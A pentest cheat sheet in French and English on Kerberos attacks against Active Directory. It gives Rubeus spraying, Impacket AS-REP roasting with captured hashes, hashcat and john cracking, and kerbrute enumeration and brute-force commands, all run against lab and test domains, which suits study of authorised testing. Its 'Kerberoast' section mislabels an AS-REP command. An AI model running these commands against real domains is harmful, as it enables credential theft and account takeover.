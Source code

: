 # Kerberos



## Ticket Discovery

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user


## Relay

Simialire au NTLM relay :

[krbrelayx](https://github.com/dirkjanm/krbrelayx)

## kerberoast et ASREProast (attaques Kerberos)

### Tools

* Impacket (linux)

* Rubeus (windows)


### Kerberoast

Kerberoast est similaire à l'AS_REP, il consiste à exploiter les tickets Kerberos des comptes de services accessible à partir d'un compte utilisateur

```sh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -request HTB.local/svc-alfresco:s3rvice -dc-ip 10.10.10.161
```

```txt
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2019-10-16 16:33:13.197703  2019-10-16 16:31:50.994383  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:b56acf6c68e5a4cecbee05233e672ad1$c883d417090944cd8261b42e3c69e1818ea72d2fbfd6195a2d3e22aaaa6d69dca0e16d5899bfc66ac868a2b3d2bb69d9f500b711ce74ccf671eb688fb8da20fec9a9183cd776ead51cddfb7b30cd713a498144f86c8072db7799d907f35008aeb007bce2a0e299354860f9e0ef18c8d3e5b31ff1668b8cb55f8614fa8a35ad56faeac5f1503cb079e3db6e8337aaa401fddb6361c156e8d34bb828eb4ebedb52878b94dceedb74a4fdd3ecd313d6868430bab82ad75124a9fd022c7ecc123ca33ef4a58f647c01d7f48aef89b8aaa33d6f29d9d151a386a3a9f3b0f0829a657954fdce800cb1
```


```sh
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```


### AS_REP

Similaire à Kerberoast, mais cible les comptes qui n’ont pas la pré-authentification Kerberos activée. Il n'y a donc pas besoin d'avoir de compte utilisateur.

* check ASREPRoast for a list of users (no credentials required)

```sh
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

exemple:

```sh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py HTB.local/ -usersfile ./list.txt -dc-ip 10.10.10.161
```
```txt
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:0f8b748c0c7d0a6ff02fa17a749ba128$ccacb6c97be0a844b6890b88bc97cd27b6798396bf2c3e64c773f25f257c000c6f2cc4301b2d97c24a4a752bbbbe1754a4238585dcac082206e021439994f2d7e46dfb24a7189417de710ad4f495aa1b19ee9e443d58aa275f95e3e9df419551fa4ba2b77dd260edae5112d49a4e6bb5f99597adc891d12ff54c1be1cef600eaee164a2a674093fc0bd02540b40f96d44a6e44f4cf4d66c9c8a3cd883994e599c55aaa91264f3acd2fd257943aaacf2462cc68d274940cc7530829b9b23c6e144a5915514d6e55a02752199aa9df813f1104798188d8788122acf982b85a4c6995a3b272956b
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

### Cracking with dictionary of passwords:

```sh
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```


### exemple d'attaque ASREProast après lancement du script BadBloud sur un AD de test

```sh
GetNPUsers.py VULN.LAN/SABRINA_SCHMIDT -request -format john -outputfile hashes.asreproast -dc-ip 192.168.206.135 -no-pass
```
```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for SABRINA_SCHMIDT
$krb5asrep$SABRINA_SCHMIDT@VULN.LAN:ff86ad3cbde239bd2728b00c0c7c5db4$14da2a1cfe4cf47a58c36e655b84d593e29cc7f8d2add72dc473a046b52a0cb128c448a50768be2cbef8c155f1fc79e5104592849fb21a1ecbf1d9448c25c31ab9b22894306afd2baee25c3263421667d77e0d531329e32ef3e7945ba220863c706d1f1dc087a3024f9c8581461a3da5b1b4c331efbe12c6c15fab4d3ff2053b4a3e74316517a08472c7f07891759a191735ebe6bbcb11d2b19a7bfb0b0854e9735bed0b6a6c43cfcc33e514f390b51dfd0c7b23adf03edbc9cb8e93e0ce5f347ba7fc3c304fb401327b7319dbe77773b633b4180adc8ac8edcf9c610cb9931fad2d1d98
```

```sh
wget https://cdn.hashmob.net/wordlists/rockyou.txt
john --wordlist=rockyou.txt hash.txt --rules=jumbo
```



## bruteforce kerberos


[kerbrute](https://github.com/ropnop/kerbrute/releases)

valider l'existance des users (liste user dans le repertoire courant) :

```sh
 ./kerbrute_linux_amd64 userenum -d HTB.local --dc 10.10.10.161 ./user 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.2 (fd5f345) - 10/15/19 - Ronnie Flathers @ropnop

2019/10/15 17:31:39 >  Using KDC(s):
2019/10/15 17:31:39 >  	10.10.10.161:88

2019/10/15 17:31:39 >  [+] VALID USERNAME:	 Administrator@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 andy@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 lucinda@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 mark@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 santi@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 sebastien@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 svc-alfresco@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 EXCH01$@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox0659cc1@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox6ded678@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox7108a4e@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox83d6781@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox968e74d@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxb01ac64@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc0a90c9@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc3d7722@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfc9daad@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfd87238@HTB.local
2019/10/15 17:31:40 >  Done! Tested 32 usernames (18 valid) in 0.461 seconds
```

dictionnaire de password pour 1 user:

```sh
./kerbrute_linux_amd64 bruteuser -d HTB.local --dc 10.10.10.161 ./pass EXCH01$
```

dictionaire "user:password" :

```sh
./kerbrute_linux_amd64 bruteforce -d HTB.local --dc 10.10.10.161 ./dictionnaire
```








